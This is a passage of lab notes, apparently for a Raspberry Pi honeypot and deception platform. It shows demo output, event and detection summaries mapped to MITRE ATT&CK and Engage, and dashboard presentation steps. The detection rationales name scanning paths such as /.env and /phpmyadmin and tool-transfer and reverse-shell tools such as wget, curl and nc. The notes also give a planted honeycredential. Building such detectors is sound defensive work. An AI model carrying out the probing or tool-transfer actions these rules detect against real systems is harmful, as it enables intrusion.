        "rationale": "Submitting a planted credential to the fake web login panel indicates the adversary discovered and attempted to use unsecured credentials.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 7,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "Planted web credentials elicit credential reuse behavior against the fake admin panel.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Downloading honeyfiles from the fake web panel indicates attempted collection of local or exposed files.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 11,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Honeyfile download behavior helps identify the attacker's collection interests.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_SCANNER_PROBE": {
      "attack": {
        "rationale": "Requests to paths such as /.env, /wp-admin, /phpmyadmin, or /admin indicate web probing or scanning behavior.\n",
        "tactic": "Reconnaissance",
        "technique": "Active Scanning",
        "technique_id": "T1595"
      },
      "detections": 61,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The fake web interface exposes probeable paths to observe scanner behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    }
  },
  "total_detections": 97,
  "triggered_detection_rules": [
    "SSH_HONEYCREDENTIAL_LOGIN",
    "SSH_HONEYFILE_ACCESS",
    "SSH_LOGIN_FAILED",
    "SSH_RECON_COMMAND",
    "SSH_TOOL_TRANSFER_COMMAND",
    "WEB_HONEYCREDENTIAL_USED",
    "WEB_HONEYFILE_ACCESS",
    "WEB_SCANNER_PROBE"
  ]
}

[+] Generating timeline and final reports...
/opt/deception-lab/parser/generate_timeline.py:93: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  lines.append(f"Generated at: {datetime.utcnow().isoformat()}Z")
[+] Timeline written to: /opt/deception-lab/reports/timeline.md
[+] Markdown report written to: /opt/deception-lab/reports/report.md
[+] JSON report written to: /opt/deception-lab/reports/report.json

[+] Report files:
total 96K
drwxrwxr-x  2 lss lss 4.0K May 22 03:11 .
drwxrwxr-x 11 lss lss 4.0K May 26 21:56 ..
-rw-rw-r--  1 lss lss 2.4K May 26 22:00 mapping_report.md
-rw-rw-r--  1 lss lss  13K May 26 22:00 report.json
-rw-rw-r--  1 lss lss 5.9K May 26 22:00 report.md
-rw-rw-r--  1 lss lss  57K May 26 22:00 timeline.md

[+] Report generation completed.
Main report: /opt/deception-lab/reports/report.md
Timeline:    /opt/deception-lab/reports/timeline.md
JSON report: /opt/deception-lab/reports/report.json

[6] Quick verification
[+] Event files:
total 164K
-rw-rw-r-- 1 lss lss 3.1K May 26 22:00 attack_coverage.json
-rw-rw-r-- 1 lss lss  61K May 26 22:00 detections.jsonl
-rw-rw-r-- 1 lss lss 2.3K May 26 22:00 engage_coverage.json
-rw-rw-r-- 1 lss lss  79K May 26 22:00 events.jsonl
-rw-rw-r-- 1 lss lss  761 May 26 22:00 events_summary.json
-rw-rw-r-- 1 lss lss 6.3K May 26 22:00 mapping_summary.json

[+] Current event summary:
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 74
  },
  "events_by_source": {
    "cowrie": 31,
    "fake-web": 200
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 11,
    "ssh_login_failed": 10,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 25,
    "web_request": 164
  },
  "generated_at": "2026-05-26T14:00:02.768189+00:00",
  "total_detections": 97,
  "total_events": 231
}

============================================================
[DONE] Demo attack flow completed.
============================================================
[+] Refresh Streamlit Dashboard:
    http://192.168.1.164:8501

[+] Key output files:
    /opt/deception-lab/data/events/events.jsonl
    /opt/deception-lab/data/events/detections.jsonl
    /opt/deception-lab/data/events/events_summary.json
    /opt/deception-lab/data/events/mapping_summary.json
    /opt/deception-lab/data/events/attack_coverage.json
    /opt/deception-lab/data/events/engage_coverage.json
    /opt/deception-lab/reports/report.md
    /opt/deception-lab/reports/report.json
    /opt/deception-lab/reports/timeline.md
============================================================

# 執行時你可以解釋每一步：
[1] Access fake web admin
代表模擬攻擊者掃到 fake admin panel。

[2] Submit fake login attempt / honeycredential
代表攻擊者嘗試提交假帳密，觸發 honeycredential 行為。

[3] Touch honeyfile-like and scanner-like paths
代表攻擊者或 scanner 探測 .env、wp-admin、phpmyadmin、server-status 等敏感或常見路徑。

[4] Trigger controlled Cowrie SSH login attempt
代表對 SSH honeypot 進行登入嘗試。

[5] Regenerate parser/report outputs
代表收集 logs、解析 events、產生 detections、更新 MITRE mapping 與 reports。
```

### 4. 如何解釋 Permission denied
```
- 展示時如果觀眾看到：
Permission denied, please try again.

你可以直接說：
這是預期行為。這個步驟的目的不是成功登入真實系統，而是讓 Cowrie honeypot 記錄 SSH login attempt。失敗登入會被 parser 轉成 ssh_login_failed event，並由 detection rule 對應到 ATT&CK T1110 Brute Force。

如果你要展示成功登入版本，之後可以用 Cowrie 已允許的 honeycredential，例如你資料中曾出現過：
backup / Backup2026!

但 Phase B2 現階段不需要改，失敗登入已經能證明 detection flow。
```

### 5. Demo 後驗證
- 執行完 demo_attack.sh 後，確認 summary：
```
cd /opt/deception-lab

----------------------------------
cat data/events/events_summary.json
執行結果：
lss@lss:/opt/deception-lab $ cat data/events/events_summary.json
{
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "detections_by_severity": {
    "high": 23,
    "medium": 74
  },
  "events_by_source": {
    "cowrie": 31,
    "fake-web": 200
  },
  "events_by_type": {
    "ssh_command": 8,
    "ssh_connection": 11,
    "ssh_login_failed": 10,
    "ssh_login_success": 1,
    "ssh_logout": 1,
    "web_honeyfile_access": 11,
    "web_login_attempt": 25,
    "web_request": 164
  },
  "generated_at": "2026-05-26T14:00:02.768189+00:00",
  "total_detections": 97,
  "total_events": 231

----------------------------------
cat data/events/mapping_summary.json
執行結果：
lss@lss:/opt/deception-lab $ cat data/events/mapping_summary.json
{
  "attack_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "defined_detection_rules": 8,
  "detections_by_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": 1,
    "SSH_HONEYFILE_ACCESS": 2,
    "SSH_LOGIN_FAILED": 10,
    "SSH_RECON_COMMAND": 3,
    "SSH_TOOL_TRANSFER_COMMAND": 2,
    "WEB_HONEYCREDENTIAL_USED": 7,
    "WEB_HONEYFILE_ACCESS": 11,
    "WEB_SCANNER_PROBE": 61
  },
  "engage_mapping_coverage": {
    "coverage_percent": 100.0,
    "mapped_defined_rules": 8,
    "total_defined_rules": 8,
    "triggered_without_mapping": [],
    "unmapped_defined_rules": []
  },
  "generated_at": "2026-05-26T14:00:02.847790+00:00",
  "input_detections": "/opt/deception-lab/data/events/detections.jsonl",
  "per_rule": {
    "SSH_HONEYCREDENTIAL_LOGIN": {
      "attack": {
        "rationale": "The attacker used a credential intentionally planted in deception assets. This indicates exposure to unsecured credential material.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 1,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "A planted SSH credential caused the adversary to reveal credential-use behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Attempting to read honeyfiles such as secrets.txt or backup_config.ini indicates interest in local sensitive data.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 2,
      "engage": {
        "activity": "Reveal Adversary Intent",
        "goal": "Elicit",
        "rationale": "Honeyfile access attempts reveal interest in sensitive files, backup data, credentials, and local configuration.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_LOGIN_FAILED": {
      "attack": {
        "rationale": "Failed SSH authentication attempts against the honeypot indicate password guessing or brute-force behavior.\n",
        "tactic": "Credential Access",
        "technique": "Brute Force",
        "technique_id": "T1110"
      },
      "detections": 10,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The SSH honeypot exposes a fake login surface for observing authentication attempts.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_RECON_COMMAND": {
      "attack": {
        "rationale": "Commands such as whoami, pwd, ls, uname, ip addr, ifconfig, ps, and netstat indicate post-login discovery activity.\n",
        "related_techniques": [
          "T1033 System Owner/User Discovery",
          "T1016 System Network Configuration Discovery",
          "T1057 Process Discovery"
        ],
        "tactic": "Discovery",
        "technique": "System Information Discovery",
        "technique_id": "T1082"
      },
      "detections": 3,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Commands entered after login reveal adversary discovery interests and operating style.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "SSH_TOOL_TRANSFER_COMMAND": {
      "attack": {
        "rationale": "Commands such as wget, curl, ftp, scp, chmod, nc, or bash reverse shell patterns may indicate tool staging or payload transfer.\n",
        "tactic": "Command and Control",
        "technique": "Ingress Tool Transfer",
        "technique_id": "T1105"
      },
      "detections": 2,
      "engage": {
        "activity": "Adversary Direction",
        "goal": "Affect",
        "rationale": "A decoy shell can influence attacker behavior and redirect tool staging activity into a controlled observation environment.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYCREDENTIAL_USED": {
      "attack": {
        "rationale": "Submitting a planted credential to the fake web login panel indicates the adversary discovered and attempted to use unsecured credentials.\n",
        "tactic": "Credential Access",
        "technique": "Unsecured Credentials",
        "technique_id": "T1552"
      },
      "detections": 7,
      "engage": {
        "activity": "Credential Collection",
        "goal": "Elicit",
        "rationale": "Planted web credentials elicit credential reuse behavior against the fake admin panel.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_HONEYFILE_ACCESS": {
      "attack": {
        "rationale": "Downloading honeyfiles from the fake web panel indicates attempted collection of local or exposed files.\n",
        "tactic": "Collection",
        "technique": "Data from Local System",
        "technique_id": "T1005"
      },
      "detections": 11,
      "engage": {
        "activity": "Collect Adversary Behavior",
        "goal": "Understand",
        "rationale": "Honeyfile download behavior helps identify the attacker's collection interests.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    },
    "WEB_SCANNER_PROBE": {
      "attack": {
        "rationale": "Requests to paths such as /.env, /wp-admin, /phpmyadmin, or /admin indicate web probing or scanning behavior.\n",
        "tactic": "Reconnaissance",
        "technique": "Active Scanning",
        "technique_id": "T1595"
      },
      "detections": 61,
      "engage": {
        "activity": "Expose Decoy Service",
        "goal": "Expose",
        "rationale": "The fake web interface exposes probeable paths to observe scanner behavior.\n"
      },
      "has_attack_mapping": true,
      "has_engage_mapping": true
    }
  },
  "total_detections": 97,
  "triggered_detection_rules": [
    "SSH_HONEYCREDENTIAL_LOGIN",
    "SSH_HONEYFILE_ACCESS",
    "SSH_LOGIN_FAILED",
    "SSH_RECON_COMMAND",
    "SSH_TOOL_TRANSFER_COMMAND",
    "WEB_HONEYCREDENTIAL_USED",
    "WEB_HONEYFILE_ACCESS",
    "WEB_SCANNER_PROBE"
  ]
}

# 你要確認這幾個欄位：
total_events
total_detections
detections_by_rule
events_by_source
events_by_type
attack_mapping_coverage.coverage_percent
engage_mapping_coverage.coverage_percent
```
- 也可以用快速指令：
```
----------------------------------
jq '.total_events, .total_detections, .detections_by_rule' data/events/events_summary.json
執行結果：
lss@lss:/opt/deception-lab $ jq '.total_events, .total_detections, .detections_by_rule' data/events/events_summary.json
231
97
{
  "SSH_HONEYCREDENTIAL_LOGIN": 1,
  "SSH_HONEYFILE_ACCESS": 2,
  "SSH_LOGIN_FAILED": 10,
  "SSH_RECON_COMMAND": 3,
  "SSH_TOOL_TRANSFER_COMMAND": 2,
  "WEB_HONEYCREDENTIAL_USED": 7,
  "WEB_HONEYFILE_ACCESS": 11,
  "WEB_SCANNER_PROBE": 61
}

----------------------------------
jq '.attack_mapping_coverage.coverage_percent, .engage_mapping_coverage.coverage_percent, .triggered_detection_rules' data/events/mapping_summary.json
執行結果：
lss@lss:/opt/deception-lab $ jq '.attack_mapping_coverage.coverage_percent, .engage_mapping_coverage.coverage_percent, .triggered_detection_rules' data/events/mapping_summary.json
100.0
100.0
[
  "SSH_HONEYCREDENTIAL_LOGIN",
  "SSH_HONEYFILE_ACCESS",
  "SSH_LOGIN_FAILED",
  "SSH_RECON_COMMAND",
  "SSH_TOOL_TRANSFER_COMMAND",
  "WEB_HONEYCREDENTIAL_USED",
  "WEB_HONEYFILE_ACCESS",
  "WEB_SCANNER_PROBE"
]

# 預期會看到 detection rules 類似：
SSH_LOGIN_FAILED
WEB_HONEYCREDENTIAL_USED
WEB_HONEYFILE_ACCESS
WEB_SCANNER_PROBE
SSH_HONEYCREDENTIAL_LOGIN
SSH_HONEYFILE_ACCESS
SSH_RECON_COMMAND
SSH_TOOL_TRANSFER_COMMAND
```

### 6. Dashboard 展示方式
- 打開：
```
http://192.168.1.164:8501
展示順序建議如下。
```


- 6.1 Overview
```
展示：
  Total events
  Detections
  Event categories
  Events over time
講法：
這裡可以看到 controlled demo 後，事件數與 detection 數已經更新。事件來源包含 fake-web 與 Cowrie，代表 Web 與 SSH 兩個 deception surface 都成功產生資料。
```
- 6.2 Event Timeline
```
展示：
  web_request
  web_login_attempt
  web_honeyfile_access
  ssh_connection
  ssh_login_failed
  ssh_command
  ssh_logout
講法：
這一頁把 raw logs 解析成統一事件格式，方便後續 detection、mapping 與報告產生。
可以用搜尋框查：admin 或 .env 或 ssh_login_failed
```
- 6.3 Detections
```
展示 detection rules：
  WEB_HONEYCREDENTIAL_USED
  WEB_HONEYFILE_ACCESS
  WEB_SCANNER_PROBE
  SSH_LOGIN_FAILED
  SSH_HONEYCREDENTIAL_LOGIN
  SSH_HONEYFILE_ACCESS
  SSH_RECON_COMMAND
  SSH_TOOL_TRANSFER_COMMAND
講法：
這裡不是單純記錄 log，而是把互動行為轉成 detection signal。例如 Web 探測對應到 WEB_SCANNER_PROBE，提交假帳密對應到 WEB_HONEYCREDENTIAL_USED，SSH 失敗登入對應到 SSH_LOGIN_FAILED。
```
- 6.4 ATT&CK Coverage
```
展示：
  T1595 Active Scanning
  T1110 Brute Force
  T1552 Unsecured Credentials
  T1005 Data from Local System
  T1082 System Information Discovery
  T1105 Ingress Tool Transfer
講法：
每一條 detection rule 都有 ATT&CK mapping，因此可以把 deception interaction 轉成攻擊技術層級的 coverage。這讓系統結果比較容易放進安全分析報告或研究論文。
```
- 6.5 Engage Coverage
```
展示：
  Expose Decoy Service
  Credential Collection
  Collect Adversary Behavior
  Reveal Adversary Intent
  Adversary Direction
講法：
Engage mapping 用來說明 deception objective。也就是這個平台不只是 honeypot，而是透過 decoy service、decoy credential、decoy content 來誘導、觀察與理解攻擊者行為。
```
- 6.6 Honey Artifacts
```
展示：
  honeycredential
  honeyfile
  secrets.txt
  backup.zip
  .env
講法：
Honey Artifacts 頁面把 honeycredential 與 honeyfile 相關事件獨立整理出來，方便展示欺敵資產是否真的被互動、提交或存取。
```
- 6.7 Raw Reports
```
展示：
  report.md
  timeline.md
  report.json
  mapping_report.md
講法：
  最後系統會輸出可保存的 Markdown / JSON 報告，這讓 demo 結果可以作為實驗紀錄，也可以納入論文或簡報。
```
### 7. 一段完整展示講稿
```
你可以照這段講：
這是 Raspberry Pi 5 單機版主動式防禦誘捕欺敵平台的 Phase B2 controlled demo。
我先執行 demo_attack.sh，模擬攻擊者接觸 fake web admin、提交假帳密、探測敏感路徑，並對 Cowrie SSH honeypot 進行登入嘗試。
接著系統會自動收集 Docker logs 與 fake web logs，透過 parser 轉成 events.jsonl，再由 detection rules 產生 detections.jsonl。
每一條 detection rule 都會對應到 MITRE ATT&CK 與 MITRE Engage。ATT&CK 用來描述攻擊技術，例如 Active Scanning、Brute Force、Unsecured Credentials、Data from Local System；Engage 則用來描述欺敵目標，例如 Expose Decoy Service、Credential Collection、Collect Adversary Behavior。
最後 Dashboard 會呈現事件時間線、偵測統計、ATT&CK coverage、Engage coverage、honeycredential / honeyfile 事件，以及 Markdown / JSON 報告。
```
### 8. Phase B2 驗收標準
```
你可以在筆記或報告裡寫：
Phase B2 Acceptance Criteria

[PASS] demo_attack.sh can execute controlled Web and SSH interactions.
[PASS] Fake Web Admin produces web_request, web_login_attempt, and scanner-probe events.
[PASS] Cowrie produces ssh_connection and ssh_login_failed events.
[PASS] Parser regenerates events.jsonl and detections.jsonl.
[PASS] Detection rules produce high and medium severity alerts.
[PASS] MITRE ATT&CK mapping coverage reaches 100%.
[PASS] MITRE Engage mapping coverage reaches 100%.
[PASS] report.md, report.json, timeline.md, and mapping_report.md are generated.
[PASS] Streamlit Dashboard can refresh and visualize updated outputs.
```


